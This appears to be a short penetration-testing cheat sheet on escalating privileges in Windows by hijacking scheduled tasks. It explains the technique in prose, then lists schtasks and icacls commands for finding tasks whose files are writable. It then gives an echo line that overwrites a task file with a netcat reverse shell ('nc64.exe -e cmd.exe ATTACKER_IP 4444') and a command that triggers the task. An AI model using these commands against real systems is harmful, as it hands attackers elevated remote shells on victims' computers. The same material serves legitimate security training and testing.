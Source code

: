 
## General

Task scheduling in Windows refers to the ability of the operating system to automatically run certain tasks at predefined times or intervals. Exploitation via task scheduling could refer to an attacker using this feature to schedule malicious tasks that execute code or perform actions without the user's knowledge or consent. For example, an attacker could schedule a task to run a program that downloads and installs malware on the victim's computer, or to perform some other malicious action. Task scheduling can be exploited in various ways, including by creating tasks that are hidden or that run with elevated privileges, or by scheduling tasks to run at times when the user is not likely to notice them.

-   Scheduling tasks to run at times when the user is not likely to notice them: The attacker could schedule a task to run at a time when the user is unlikely to be using the computer, such as late at night or while the user is away from the computer. This could make it more difficult for the user to notice any suspicious activity or to identify the source of any problems that may occur.
	
-   Creating tasks that are hidden: The attacker could create a task that is not visible to the user and that runs in the background, potentially without the user's knowledge.
    
-   Creating tasks that run with elevated privileges: The attacker could create a task that runs with higher privileges than the user's account, potentially allowing the task to perform actions that the user does not have permission to perform.


## Commands

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Find all the schedued Tasks
```
> schtasks /query /fo list /v (ALL THE TASKS)
> schtasks /query /tn {TASK} /fo list /v (ONLY THE TASK)
```

Find the permision needed to edit the task file
```
icacls c:\tasks\{TASK NAME} (I = Inheritance) (F = Full Controle) (icacls = Tool to find permision)
type c:\tasks\{TASK NAME} (check what the task is about)
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\{TASK} (Reverce Shell)
```

Set the attacking machine with a netcat server ready to lisent
```
schtasks /run /tn {TASK} (Launch the vulnerable task or wait until it run)
```